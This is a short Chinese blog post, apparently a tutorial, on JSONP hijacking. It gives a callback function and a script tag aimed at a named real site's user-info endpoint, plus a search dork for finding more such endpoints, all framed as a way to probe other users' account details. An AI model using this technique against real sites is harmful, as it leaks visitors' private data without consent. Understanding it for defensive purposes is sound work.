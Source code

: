 ```yaml
---
category:	Hacking
layout:		post
title:		使用JSONP攻击探测目标用户信息
desc:		jsonp攻击已经算是很成熟了，出来了应该很久，但是知道的人也许并不是很多。这个玩意能做什么呢？也许你能让TA发挥更强大！
tags:		[jsonp,xss,xss-jsonp,jsonp攻击,探测信息]
---
```

#### 科普
如果你是第一次听说这个玩意，可以点击[jsonp-百度百科](http://baike.baidu.com/view/2131174.htm?fr=aladdin)进行大概的了解。    

#### 原理
很多大型的网站，比如百度、QQ、人人、新浪等等社交网站，都存在`jsonp`接口以方便其他页面调用。    
比如要获取当前的登陆用户信息，则需要在本地定义一个接收用户信息的函数，然后再使用`<script>`标签进行跨域地访问`jsonp`接口，`jsonp`返回的数据一般都是`json`格式，也就是`js`可以直接`eval`的代码，然后再把执行成功的`object`返回给用户定义的函数。    
额，这个是个人的简单理解，因人而已，可以不必纠结。。

#### 利用
我们先定义一个我们的接收函数：
{% highlight js %}
function cb(data){
	console.log('[*] 获取到数据..');
	console.log(data);
}
{% endhighlight %}

然后再添加一个`<script>`标签引用我们扫描到的`jsonp`接口：
{% highlight html %}
<script src="http://passport.game.renren.com/user/info?callback=cb"></script>
{% endhighlight %}
这里注意的是，`URL`中的`callback`参数为我们定义的函数名称。如果不出意外，`js`脚本在执行完毕之后就会执行我们的`cb`函数了。

#### 扩展
综上所述，如果我们需要探测对方的信息，则需要更多的`jsonp`接口来探测，这时候问题就来了，我们如何去扫描`jsonp`接口呢？    
根据一般的`jsonp`地址不难看出有个特性，就是基本都有`callback`参数，那么我们就可以直接使用搜索引擎搜索类如：

	site:qq.com inurl:callback

还可以自己写个插件神马的，浏览一个网站的时候判断所访问的所有`url`地址，然后判断是否为`jsonp`，那效率杠杠的！